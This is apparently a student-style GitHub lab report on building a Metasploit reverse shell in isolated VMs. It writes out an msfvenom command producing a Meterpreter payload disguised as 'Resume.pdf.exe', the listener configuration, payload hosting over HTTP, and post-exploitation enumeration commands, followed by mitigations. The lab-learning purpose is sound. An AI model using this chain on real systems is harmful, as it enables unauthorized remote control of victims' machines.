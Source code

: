 # Reverse Shell Simulation Lab

## **Project Report**
Reverse Shell Simulation Lab


---

### **Project Title**:  
Setting Up and Analyzing a Reverse Shell in a Simulated Internal Network

---

### **Introduction**

This lab project explores the setup and execution of a reverse shell attack in a controlled environment. By simulating such a scenario, cybersecurity professionals can better understand how attackers exploit vulnerabilities to gain unauthorized access to systems. The insights gained from this exercise will help strengthen defensive strategies and promote awareness of potential risks. All activities were conducted ethically within an isolated environment.

---

### **Objectives**

1. Simulate an internal network using virtual machines.
2. Perform reconnaissance on a target system to identify potential vulnerabilities.
3. Create and execute a reverse shell payload.
4. Analyze post-exploitation activities using Meterpreter.
5. Identify mitigation strategies to protect against reverse shell attacks.

---

### **Environment Setup**

1. **Virtual Machines Configuration**:
   - **Windows VM**: IP address `192.168.10.20`![Screenshot 2024-12-26 232122](https://github.com/user-attachments/assets/78ef26d2-4190-4236-9596-cc5534ec111a)


   - **Kali Linux VM**: IP address `192.168.10.21`![Screenshot 2024-12-26 232716](https://github.com/user-attachments/assets/9f6df1d7-40c6-4a64-bcf7-e3ad8d90904f)


2. **Network Validation**:
   - Ensure both VMs are connected to the same network by performing ping tests:
![Screenshot 2024-12-26 232951](https://github.com/user-attachments/assets/32d472f5-5abc-476e-bc42-d8fd9a61c892)



### **Steps and Execution**

#### **Step 1: Reconnaissance**

- Use `nmap` to scan the Windows VM for open ports and services:
  ```bash
  nmap -A 192.168.10.20 -Pn

![Screenshot 2024-12-27 000525](https://github.com/user-attachments/assets/1f87202b-8081-45e1-9072-7b69632842d5)


#### **Step 2: Payload Creation**

A reverse shell payload is a malicious program that initiates a connection back to the attacker’s machine, allowing remote command execution. It bypasses traditional security measures like firewalls by establishing the connection from inside the target network.
![Screenshot 2024-12-27 000844](https://github.com/user-attachments/assets/a21e935b-f80d-4a86-bb59-260c334e6198)
![Screenshot 2024-12-27 001050](https://github.com/user-attachments/assets/831c540f-106a-4a06-85b9-ebe0370c6ea3)


- Generate the payload using `msfvenom`:

  ```bash
  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.21 lport=4444 -f exe -o Resume.pdf.exe
  ```


- Verify the file type:
  ```bash
  file Resume.pdf.exe
  ```
    ![Screenshot 2024-12-27 001727](https://github.com/user-attachments/assets/f9be2c00-db9c-4919-8cc2-62d961b97792)

#### **Step 3: Listener Setup**

- Launch the Metasploit Framework:
  ```bash
  msfconsole
  ```
  ![Screenshot 2024-12-27 001947](https://github.com/user-attachments/assets/976c3bb5-4851-4450-8849-c953736761e0)

- Configure the handler to listen for incoming connections:
  ```bash
  use exploit/multi/handler
  set payload windows/x64/meterpreter/reverse_tcp
  set lhost 192.168.10.21
  set lport 4444
  exploit
  ```
![Screenshot 2024-12-27 002111](https://github.com/user-attachments/assets/01966d26-76d7-440f-876d-211c7d0d2e4f)
![Screenshot 2024-12-27 002553](https://github.com/user-attachments/assets/28d19ec4-c3dd-41ad-bf84-191e38848d45)
![Screenshot 2024-12-27 002610](https://github.com/user-attachments/assets/9a6210f1-20ca-49f6-8bfa-69468b50deac)
![Screenshot 2024-12-27 003330](https://github.com/user-attachments/assets/62709ad6-d480-4a10-a459-4ae6c8e7fae4)
![Screenshot 2024-12-27 003359](https://github.com/user-attachments/assets/276af1ed-0c7c-4a1a-a91a-b5a26e52f5fc)

#### **Step 4: Hosting the File**

- Serve the malicious file using Python’s HTTP server:
  ```bash
  python -m http.server 9999
  ```
![Screenshot 2024-12-27 003528](https://github.com/user-attachments/assets/452b6929-cbf7-46a1-ba8a-3aac55b54c62)

#### **Step 5: Execution on Windows VM**

- Open a web browser in the Windows VM and navigate to:
  ```
  http://192.168.10.21:9999
  ```
  ![Screenshot 2024-12-27 003815](https://github.com/user-attachments/assets/ddf9eb80-e797-4b89-b0ef-65906fddfd0b)

- Download and execute `Resume.pdf.exe` to trigger the reverse shell.
![Screenshot 2024-12-27 003901](https://github.com/user-attachments/assets/8cae4eef-71d2-4304-9226-816e33d8b1ea)
![Screenshot 2024-12-27 003938](https://github.com/user-attachments/assets/b7683fe6-a727-469d-9ccf-46e2571c5c45)
![Screenshot 2024-12-27 004149](https://github.com/user-attachments/assets/7ac7e707-4d75-4abf-9f72-489e0edcf0b2)

#### **Step 6: Post-Exploitation**

- Access the Meterpreter session and execute commands to gather information:
  ```bash
  shell
  net user
  net localgroup
  whoami
  ipconfig
  ```
![Screenshot 2024-12-27 005345](https://github.com/user-attachments/assets/a876fd00-fefd-42a2-bde9-bd6a8400e270)
![Screenshot 2024-12-27 005438](https://github.com/user-attachments/assets/6b1a8f18-e674-4f46-a73c-4f92e4167dec)

#### **Step 7: Monitoring**

- Use `netstat` on the Windows VM to inspect network connections and processes:
  ```bash
  netstat -annob
  ```
![Screenshot 2024-12-27 005006](https://github.com/user-attachments/assets/3fa54750-1737-4190-9516-b9f4ec8ef234)
![Screenshot 2024-12-27 005045](https://github.com/user-attachments/assets/1dd6acd4-c065-407c-a9db-930245d0bff5)

---

### **Observations**

- The payload successfully established a reverse shell connection, illustrating how attackers can remotely control compromised systems.
- Commands executed on the target provided detailed information about system users, administrative groups, and network configurations.
- The `whoami` command confirmed the attacker's access level, indicating potential permissions for further exploitation.
- Active connections and processes observed using `netstat` highlighted channels that could be monitored to detect malicious activity.
- The payload’s performance varied depending on network stability, emphasizing the importance of robust and consistent network configurations during testing.

---

### **Ethical Considerations**

- This exercise was conducted in a secure and controlled environment to ensure no harm was caused to production systems.
- The primary goal is to understand attack methods and use this knowledge to strengthen system defenses.

---
### Skills Learned

- **Network Scanning and Reconnaissance**  
  - Understanding how to identify open ports and vulnerabilities using tools like `nmap`.

- **Payload Development**  
  - Creating and customizing reverse shell payloads with `msfvenom`.

- **Post-Exploitation Techniques**  
  - Executing commands on compromised systems to extract valuable information.

- **Network Monitoring**  
  - Using tools like `netstat` to observe and analyze active connections.

- **Ethical Hacking Practices**  
  - Conducting penetration testing responsibly in a controlled environment.



---
### **Mitigation Strategies**

1. **Network Segmentation**:

   - Isolate critical systems from less secure areas of the network.

2. **Regular Software Updates**:

   - Apply security patches promptly to close known vulnerabilities.

3. **Endpoint Protection**:

   - Use advanced antivirus and endpoint detection solutions to monitor for suspicious activity.

4. **User Training**:

   - Educate users about the risks of phishing and downloading suspicious files.

5. **Firewall and IDS Rules**:

   - Configure firewalls and intrusion detection systems to block unauthorized outgoing traffic.

---

### **Conclusion**

This lab project highlights the critical need for proactive measures to protect systems against reverse shell attacks. By understanding the techniques used by attackers, cybersecurity professionals can better safeguard networks and educate stakeholders on mitigating risk
